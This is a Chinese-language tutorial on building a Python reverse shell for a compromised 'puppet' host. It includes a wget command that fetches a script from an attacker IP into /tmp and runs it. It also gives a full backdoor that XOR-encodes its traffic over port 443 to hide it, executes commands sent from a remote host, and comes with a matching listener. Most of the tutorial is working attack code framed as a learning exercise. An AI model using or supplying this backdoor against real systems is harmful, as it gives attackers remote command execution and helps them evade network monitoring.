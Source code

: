 ##反向shell

这篇教程将会教你使用Python编写一个反向shell，首先我们先演示使用Python如何利用web服务器的功能，把文件从另一台主机传送过来。我们假设你有一台傀儡主机，你现在想下载傀儡机上面的的文件。那么你就可以使用shell(或meterpreter)去访问这台傀儡机，你可以通过一行Python代码把傀儡机建立成为一个web服务器，然后下载傀儡机上面的文件.

创建一个python HTTP服务器可以直接使用python的内建函数"SimpleHTTPServer"来创建，你可以使用'-m'参数直接在命令行调用模块，创建的服务器默认是监听的8000端口，但是你可以指定端口，直接在'SimpleHTTPServer'后面跟一个端口参数:

```
python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 80 ...
```

我们假设你没有防火墙去阻止你的连接，那么你是可以请求到这服务器的数据。你可以在任何目录里面去启动Python HTTP服务器，这样你就能够通过浏览器或者是远程客户端来访问这个目录。这里有一个简单的例子告诉你使用wget工具去获取文件,但是有些时候就会经常发现你根本没有权限在当前目录写入文件并且初始化这个脚本，但是你可以改变脚本执行的目录，下面这个例子就演示了把脚本在/tmp目录下面执行：

```
#使用-O参数，把文件保存在其他目录- /tmp/ 一般可写
wget -O /tmp/shell.py http://<attacker_ip>/shell.py
 
#修改权限
chmod a+x /tmp/shell.py
 
# 使用file命令检查文件是否正确
file /tmp/shell.py
 
#执行脚本
/usr/bin/python /tmp/shell.py
```

现在让我看一个实际的后门代码。我们将会使用socket，subprocess和sys模块，我非常的喜欢subprocess模块因为它允许你能储存STDOUT给一个变量，然后在脚本中的其他地方使用，然后新增一个传输层，通过443端口来传输文件，这个端口经常用在传输ssl的数据可以很容易的混淆数据:

```
#!/usr/bin/python
 
import socket,subprocess,sys
 
RHOST = sys.argv[1]
RPORT = 443
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((RHOST, RPORT))
 
while True:
     # 从socket中接收XOR编码的数据
     data = s.recv(1024)
 
     # XOR the data again with a '\x41' to get back to normal data
     en_data = bytearray(data)
     for i in range(len(en_data)):
       en_data[i] ^=0x41
 
     # 执行解码命令，subprocess模块能够通过PIPE STDOUT/STDERR/STDIN把值赋值给一个变量
     comm = subprocess.Popen(str(en_data), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
     STDOUT, STDERR = comm.communicate()
 
     # 输出编码后的数据并且发送给指定的主机RHOST
     en_STDOUT = bytearray(STDOUT)
     for i in range(len(en_STDOUT)):
       en_STDOUT[i] ^=0x41
     s.send(en_STDOUT)
s.close()
```

上面的代码中有些概念已经在0x1中介绍过了，但是除了之前的使用socket创建一个连接之外，我们通过subprocess模块执行了一个命令，subprocess模块非常的方便，它允许你通过STDOUT/STDERR命令直接把值赋值给一个变量，然后我们可以通过命令把输出的进行编码然后通过socket网络发送出去。使用OXR的好处就是你能够很容易编码你要发送过去的数据，然后通过相同的密钥来解码返回的数据，最后解码后的数据可以以明文的形式去执行命令。

现在为了利用好这个后门，我们需要一个监听脚本并且解码后端传输过来的数据，让我们通过明文很清晰的看清楚返回的数据。下面我们将要设计一个监听器。来获取反向shell的数据，并且能够对于输入／输出的进行解码/编码，为了能够在终端上面能够很清晰的看出来，所以需要使用XOR编码:

```
import socket 
 
s= socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind(("0.0.0.0", 443))
s.listen(2)
print "Listening on port 443... "
(client, (ip, port)) = s.accept()
print " Received connection from : ", ip
 
while True:
 command = raw_input('~$ ')
 encode = bytearray(command)
 for i in range(len(encode)):
   encode[i] ^=0x41
 client.send(encode)
 en_data=client.recv(2048)
 decode = bytearray(en_data)
 for i in range(len(decode)):
   decode[i] ^=0x41
 print decode
 
client.close()
s.close()
```

这章的例子非常有趣，对于学习信息安全的朋友都喜欢shell，大家可以对代码做点修改让这个脚本也能够在window上面也能够正常运行，最后大家可以使用base64来代替XOR进行编码与解码，这些练习有助于你更加灵活的使用python.

